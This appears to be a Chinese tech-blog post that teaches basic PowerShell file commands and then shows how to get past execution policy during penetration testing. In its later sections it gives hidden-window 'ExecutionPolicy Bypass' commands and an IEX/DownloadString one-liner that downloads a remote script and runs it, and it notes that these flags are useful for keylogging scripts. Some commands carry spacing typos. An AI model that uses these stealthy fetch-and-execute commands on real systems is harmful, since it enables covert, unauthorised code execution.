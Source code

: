 ```yaml
---
layout: post
category: binghe-code-hack
title: PowerShell基本命令和绕过权限执行
tagline: by 冰河
tag: [hack,binghe-code-hack]
excerpt: PowerShell基本命令和绕过权限执行
lock: need
---
```


# PowerShell基本命令和绕过权限执行

## 基本命令 

以文件操作为例

## 新建目录

```
New-Item whitecellclub-ItemType Directory
```

## 新建文件

```
New-Item light.txt-ItemType File
```

## 删除目录

```
Remove-Item whitecellclub
```

## 显示文件内容

```
Get-Content test.txt
```

## 设置文本内容

```
Set-Content test.txt-Value"Hello World!"
```

## 追加内容

```
Add-Content light.txt-Value"i love you"
```

## 清除内容

```
Clear-Content test.txt
```

## 执行策略

获取执行策略

```
Get-ExecutionPolicy
```

策略分以下几种：

- Restricted: 脚本不能执行(默认)
- RemoteSigned: 本地创建的脚本可以运行，但从网上下载的脚本不能运行(拥有数字证书签名的除外)。
- AllSigned: 仅当脚本由受信任的发布者签名时才能运行。
- Unrestricted: 允许所有的script运行

可以使用如下命令格式设置PowerShell的执行策略

```
Set-ExecutionPolicy <Policy name>
```

## 绕过策略来执行脚本

如果要运行PowerShell脚本程序，必须用管理员权限将Restricted策略改成Unrestricted,所以，在渗透时，需要采用一些方法绕过策略来执行脚本

## 绕过本地权限执行

上传xxx.ps1到目标服务器，在CMD环境下，在目标服务器本地执行该脚本

```
PowerShell.exe-ExecutionPolicy Bypass-File xxx.ps1
```

## 本地隐藏绕过权限执行脚本

```
PowerShell.exe-ExecutionPolicy Bypass-WindowStyle Hidden-NoLogo-NonInteractive-NoProfile-File xxx.ps1
```

## 用IEX下载远程PS1脚本绕过权限执行

```
PowerShell.exe-ExecutionPolicy Bypass-WindowStyle Hidden-NoProfile-Nonl IEX (New-ObjectNet.WebClient).DownloadString("xxx.ps1");[Parameters]
```

以上命令的参数说明：

- ExecutionPolicy Bypass : 绕过执行安全策略，这个参数非常重要，在默认情况下，PowerShell的安全策略规定了PowerShell不允许运行命令和文件。通过设置这个参数，可以绕过任意一个安全规则。在渗透测试中，基本每一次运行PowerShell脚本时都要使用这个参数。
- WindowStyle Hidden ： 隐藏窗口
- NoLogo : 启动不显示版权标志的PowerShell
- NonInteractive (-Nonl) : 非交互模式，PowerShell不为用户提供交互的提示
- NoProfile (-Nop): PowerShell控制台不加载当前用户的配置文件
- Noexit : 执行后不退出Shell。这在使用键盘记录等脚本时非常重要。
- PowerShell脚本在默认情况下无法直接运行，这时就可以使用上述三种方法绕过安全策略，运行PowerShell脚本。


## 写在最后

> 如果你觉得冰河写的还不错，请微信搜索并关注「 **冰河技术** 」微信公众号，跟冰河学习高并发、分布式、微服务、大数据、互联网和云原生技术，「 **冰河技术** 」微信公众号更新了大量技术专题，每一篇技术文章干货满满！不少读者已经通过阅读「 **冰河技术** 」微信公众号文章，吊打面试官，成功跳槽到大厂；也有不少读者实现了技术上的飞跃，成为公司的技术骨干！如果你也想像他们一样提升自己的能力，实现技术能力的飞跃，进大厂，升职加薪，那就关注「 **冰河技术** 」微信公众号吧，每天更新超硬核技术干货，让你对如何提升技术能力不再迷茫！


![](https://img-blog.csdnimg.cn/20200906013715889.png)